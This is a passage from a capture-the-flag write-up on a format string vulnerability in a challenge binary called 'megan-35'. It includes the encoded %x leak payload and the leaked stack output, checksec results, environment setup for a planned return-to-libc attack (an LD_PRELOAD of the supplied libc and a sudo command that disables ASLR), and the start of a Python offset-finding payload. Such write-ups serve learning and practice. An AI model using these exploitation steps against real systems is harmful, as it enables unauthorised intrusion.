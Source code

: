 I encode the payload following string format into Megan-35:

```
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
```

And manually enter it into the binary:

```
$ ./megan-35 
Decrypt your text with the MEGAN-35 encryption.
Od3yoHy1RIXyQYeqTMWVOd3yoHy1RIXyQYeqTMWVOd3yoHy1RIXyQYeqTMWVOd3yoHy1RIXyQYeqTMWVOd3yoHy1RIXyQYeqTMWVOd3yoHy1RIXyQYeqTMWVOd3yoHy1RIXyQW55
0804b818.f7fce5a0.00000000.00000000.00000000.00000000.7933644f.3179486f.79584952.71655951.56574d54.7933644f.3179486f.79584952.71655951.56574d54.7933644f.3179486f.79584952.71655951.
```

Great!  We now have our bug, a classic string format vulnerability.

# Exploit Development
The first step I usually take when developing an exploit for a binary, is to run checksec on it.

```
$ checksec megan-35
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Since NX is enabled, we can't simply put a bunch of shellcode on the stack and return to that.  However, the CTF organizers were nice enough to provide us a copy of libc, a return-to-libc attack should work perfectly on this binary.

Now is probably a good time to emulate the remote system configuration as closely as possible.  In order to use the supplied libc library, instead of the one installed with your operating system, simply execute the following:

```
$ export LD_PRELOAD=./libc.so.6
```

This terminal session will now use the same version of Libc that the remote target is running.  Next, we should disable ASLR as it is disabled on the remote target.  Simply execute the following:

```
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Now that our setup configuration closely resembles the remote server, lets try and figure out which argument contains the beginning of my payload.  I try using the following payload:
```python
payload = ''
payload += 'AAAA'
payload += '%x.'*200
```
